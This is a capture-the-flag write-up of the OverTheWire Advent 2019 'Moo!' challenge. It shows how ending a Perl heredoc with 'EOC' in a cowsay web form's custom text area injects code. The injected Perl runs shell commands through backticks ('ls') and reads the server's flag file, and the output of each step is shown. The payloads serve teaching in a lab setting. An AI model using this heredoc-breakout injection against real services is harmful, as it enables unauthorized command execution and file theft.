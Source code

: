 # Moo!
### Prompt
> 'Moo may represent an idea, but only the cow knows.' - Mason Cooley 
```
Service: http://3.93.128.89:1204
```

### Solution
Viewing all the different cows, we find that custom_cow looks interesting because it has more inputs like `$eyes`, `$tongue`, and `$thoughts`. All variables are used in the `custom_cow` text area. Try to use a new variable like `$test` and you'll get an error message:

> $ must be escaped with \ except when using $thoughts, $eyes or $tongue

The text area interprets some variables. This tells us that this text area is vulnerable to input.

Doing a bit more research on cowsay brings us to the cowsay package site. From here you can download the source and inspect the different cow files. Notice that all cow files are multiline comments that use `EOC` as the start and end symbol. For example, the ghostbusters cow looks like this:

```
##
## Ghostbusters!
##
$the_cow = <<EOC;
          $thoughts
           $thoughts
            $thoughts          __---__
                    _-       /--______
               __--( /     \\ )XXXXXXXXXXX\\v.
             .-XXX(   O   O  )XXXXXXXXXXXXXXX-
            /XXX(       U     )        XXXXXXX\\
          /XXXXX(              )--_  XXXXXXXXXXX\\
         /XXXXX/ (      O     )   XXXXXX   \\XXXXX\\
         XXXXX/   /            XXXXXX   \\__ \\XXXXX
         XXXXXX__/          XXXXXX         \\__---->
 ---___  XXX__/          XXXXXX      \\__         /
   \\-  --__/   ___/\\  XXXXXX            /  ___--/=
    \\-\\    ___/    XXXXXX              '--- XXXXXX
       \\-\\/XXX\\ XXXXXX                      /XXXXX
         \\XXXXXXXXX   \\                    /XXXXX/
          \\XXXXXX      >                 _/XXXXX/
            \\XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \\XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
EOC
```

If we enter `EOC` in the custom_cow text area, notice that it does not appear in the result. The command likely ran. Now try to print something.

```
EOC
print "HELLO_WORLD\n";
```

You will get:

```
HELLO_WORLD
 ___________
< $thoughts >
 -----------
```

Now we know we can execute whatever we want. Try printing the directory.

```
EOC
print `ls`;
```

The result:

```
flag
server.py
templates
 _________
< message >
 ---------
```

Now print the flag file:

```
EOC
print `ls`;
open (FH, 'flag');
print <FH>;
```

And get the flag: 
```
flag
server.py
templates
AOTW{the_perl_cow_says_moo} 
_________
< message >
 ---------
```

#### Links
https://advent2019.overthewire.org/

https://packages.ubuntu.com/source/bionic/cowsay
